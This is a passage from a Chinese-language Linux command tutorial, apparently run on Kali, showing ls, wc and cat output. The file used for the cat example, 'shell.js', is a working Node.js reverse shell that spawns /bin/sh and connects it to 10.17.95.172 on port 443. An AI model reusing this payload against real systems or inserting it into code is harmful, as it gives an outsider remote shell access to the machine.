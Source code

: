 @tab ls
```sh
ls
```

:::

:::tabs

@tab  wc 查看 'shell.js' 文件内的单词数，行数
```bash 
wc -w
wc -l
```

@tab 输出结果
```text
┌──(kali㉿bogon)-[~/Project]
└─$ wc -w shell.js
34 shell.js

┌──(kali㉿bogon)-[~/Project]
└─$ wc -l shell.js
12 shell.js

┌──(kali㉿bogon)-[~/Project]
└─$
```
:::

:::tabs

@tab cat 命令查看 'shell.js' 文件内容
```bash 
cat shell.js
```

@tab shell.js
```js 
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.17.95.172", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
:::

##  文件查找
